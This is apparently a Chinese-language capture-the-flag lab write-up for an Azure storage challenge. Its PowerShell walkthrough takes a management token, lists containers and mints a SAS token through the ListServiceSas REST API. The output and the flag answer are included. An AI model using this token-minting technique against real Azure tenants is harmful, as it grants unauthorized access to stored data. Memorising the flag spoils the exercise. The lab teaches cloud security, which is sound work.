



# Storage Account 14 - Minting SAS URI

> Minting SAS URI

:::info

**Scenario**

Storage accounts can be accessed through various methods, and one of them is by using the SAS URL. Make use of the SAS URL provided to find the flag.

**Overview**

What is SAS URL (Shared Access Signature URL)?

A SAS URL (Shared Access Signature URL) is a URL that contains a shared access signature token. It allows secure access to specific resources within an Azure storage account for a limited period, without requiring the account key. SAS URLs provide us with a way to grant granular access permissions to clients or applications without exposing the storage account keys.

**Hint**

- Access resources without exposing keys

**Impact**

- Once a SAS URL is leaked, we lose control over who can access the resource during the validity period of the SAS token. Revoking access is not possible on the leaked URL, which can be distributed or accessed by multiple parties. Here, the user can generate the SAS token for the storage account with the required permissions over a REST API request.

**Reference**

- [Storage Blob Docs](https://learn.microsoft.com/en-us/azure/storage/blobs/storage-blobs-introduction)
- [Azure REST API Docs](https://learn.microsoft.com/en-us/rest/api/azure/)
- [Shared Access Signature](https://learn.microsoft.com/en-us/azure/storage/common/storage-sas-overview)
- [Azure Storage Explorer](https://learn.microsoft.com/en-us/azure/storage/common/storage-sas-overview)

:::

题目给出的是 SASURL 链接，使用 Microsoft Azure Storage Explorer 工具进行连接

[Azure 存储资源管理器 - 云存储管理 | Microsoft Azure](https://azure.microsoft.com/zh-cn/products/storage/storage-explorer)


使用 SASURL 链接进行连接到 Blob 容器



即可获得凭据


在 Microsoft Azure Storage Explorer 工具中进行连接



但是会出现提示，权限不足



附上完整的Powershell操作过程，官网上的有问题

指令

```powershell
Connect-AzAccount -Credential
$access = Get-AzAccessToken -ResourceUrl "https://management.azure.com/"
$Token  = [System.Net.NetworkCredential]::new("", $access.Token).Password

# 列出容器
$SubscriptionID = (Get-AzSubscription).Id
$StorageAccount = Get-AzStorageAccount
$ResourceGroupName = $StorageAccount.ResourceGroupName
$StorageAccountName = $StorageAccount.StorageAccountName
$Token = (Get-AzAccessToken).Token

$URI = "https://management.azure.com/subscriptions/$SubscriptionID/resourceGroups/$ResourceGroupName/providers/Microsoft.Storage/storageAccounts/$StorageAccountName/blobServices/default/containers?api-version=2022-09-01&`$include=deleted"

$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
ContentType = "application/json"
}

(Invoke-RestMethod @RequestParams).value

# 生成 SAS Token

$Token  = [System.Net.NetworkCredential]::new("", $access.Token).Password
$URI = "https://management.azure.com/subscriptions/$SubscriptionID/resourceGroups/$ResourceGroupName/providers/Microsoft.Storage/storageAccounts/$StorageAccountName/ListServiceSas?api-version=2022-09-01"
$RequestParams = @{
Method = 'POST'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
ContentType = "application/json"
}

$body = "
{
'canonicalizedResource': '/blob/$StorageAccountName/<ContainerName>',
'signedResource': 'c',
'signedPermission': 'rl',
'signedExpiry': '2026-05-24T11:32:48.8457197Z'
}
"

(Invoke-RestMethod @RequestParams -Body $body | ConvertTo-Json)
```

执行过程

```powershell
PS C:\Users\Randark> Connect-AzAccount -Credential
# 这里会启动浏览器，登陆即可

PS C:\Users\Randark> $access = Get-AzAccessToken -ResourceUrl "https://management.azure.com/"
PS C:\Users\Randark> $Token  = [System.Net.NetworkCredential]::new("", $access.Token).Password
PS C:\Users\Randark>
PS C:\Users\Randark> $URI = "https://management.azure.com/subscriptions/$SubscriptionID/resourceGroups/$ResourceGroupName/providers/Microsoft.Storage/storageAccounts/$StorageAccountName/blobServices/default/containers?api-version=2022-09-01&`$include=deleted"
PS C:\Users\Randark>
PS C:\Users\Randark> $RequestParams = @{
>>   Method = 'GET'
>>   Uri = $URI
>>   Headers = @{ Authorization = "Bearer $Token" }
>>   ContentType = "application/json"
>> }
PS C:\Users\Randark>
PS C:\Users\Randark> (Invoke-RestMethod @RequestParams).value

id         : /subscriptions/d51882bb-f3df-4079-a476-d561f0464d00/resourceGroups/AS-SA-020126-pooledLab-tbfozm736/providers/Microsoft.Storage/storageAccounts/askjwbnh736/blobServices/default/co
             ntainers/asevtcfq736
name       : asevtcfq736
type       : Microsoft.Storage/storageAccounts/blobServices/containers
etag       : "0x8DE4A03FAC8BB3F"
properties : @{immutableStorageWithVersioning=; deleted=False; remainingRetentionDays=0; defaultEncryptionScope=$account-encryption-key; denyEncryptionScopeOverride=False; publicAccess=None; l
             easeStatus=Unlocked; leaseState=Available; lastModifiedTime=2026/1/2 13:36:48; hasImmutabilityPolicy=False; hasLegalHold=False}

id         : /subscriptions/d51882bb-f3df-4079-a476-d561f0464d00/resourceGroups/AS-SA-020126-pooledLab-tbfozm736/providers/Microsoft.Storage/storageAccounts/askjwbnh736/blobServices/default/co
             ntainers/askjwbnh736
name       : askjwbnh736
type       : Microsoft.Storage/storageAccounts/blobServices/containers
etag       : "0x8DE4A03FA090D09"
properties : @{immutableStorageWithVersioning=; deleted=False; remainingRetentionDays=0; defaultEncryptionScope=$account-encryption-key; denyEncryptionScopeOverride=False; publicAccess=None; l
             easeStatus=Unlocked; leaseState=Available; lastModifiedTime=2026/1/2 13:36:47; hasImmutabilityPolicy=False; hasLegalHold=False}

# 请求针对指定容器的 SAS Token
PS C:\Users\Randark> $Token  = [System.Net.NetworkCredential]::new("", $access.Token).Password
PS C:\Users\Randark> $URI = "https://management.azure.com/subscriptions/$SubscriptionID/resourceGroups/$ResourceGroupName/providers/Microsoft.Storage/storageAccounts/$StorageAccountName/ListServiceSas?api-version=2022-09-01"
PS C:\Users\Randark>
PS C:\Users\Randark> $RequestParams = @{
>> Method = 'POST'
>> Uri = $URI
>> Headers = @{
>> 'Authorization' = "Bearer $Token"
>> }
>> ContentType = "application/json"
>> }
# 需要注意，这里的 asevtcfq736 改为实际的容器名
PS C:\Users\Randark> $body = "
>> {
>> 'canonicalizedResource': '/blob/$StorageAccountName/asevtcfq736',
>> 'signedResource': 'c',
>> 'signedPermission': 'rl',
>> 'signedExpiry': '2026-05-24T11:32:48.8457197Z'
>> }
>> "
PS C:\Users\Randark> (Invoke-RestMethod @RequestParams -Body $body | ConvertTo-Json)
{
  "serviceSasToken": "sv=2015-04-05&sr=c&st=2026-01-02T14%3A41%3A14.3632132Z&se=2026-05-24T11%3A32%3A48.8457197Z&sp=rl&sig=I2baSfytHPeSVLhqDxlZtLMv5o%2BYj2AV8fIRDMKRj7w%3D"
}
```

最终拼接起来 SASURL 访问即可

```plaintext
$SASURL = 'https://<STORAGEACCOUNTNAME>.blob.core.windows.net/<CONTAINERNAME>?<SASTOKEN>' 
```


:::info Flags

<details>

<summary> What is the flag value? </summary>

```plaintext
asevtcfq736
```

</details>

:::
